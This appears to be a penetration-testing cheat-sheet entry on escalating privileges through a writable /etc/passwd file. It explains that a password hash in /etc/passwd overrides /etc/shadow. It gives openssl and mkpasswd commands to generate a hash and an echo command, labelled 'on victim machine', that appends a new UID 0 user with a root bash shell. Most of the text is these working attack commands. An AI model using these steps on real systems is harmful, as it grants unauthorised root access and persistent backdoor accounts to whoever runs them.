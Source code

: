 If the user has write permissions to /etc/passwd, then the machine is vulnerable.
```bash
ls -lah /etc/passwd
```
For backwards compatibility, if a password hash is present in the second column of an /etc/passwd user record, it is considered valid for authentication and it takes precedence over the respective entry in /etc/shadow.
# Create new user in /etc/passwd
## Generate password for new user
Depening on the hashing algorithm used in /etc/shadow, this command can change:
```bash
openssl passwd $(NEW_PASSWORD)
```
```bash
mkpasswd -m des -S Fd $(NEW_PASSWORD)
```
## Add entry to /etc/passwd
On victim machine:
```bash
echo "$(NEW_USER):$(OPENSSL_OUTPUT):0:0:root:/root:/bin/bash" >> /etc/passwd
```
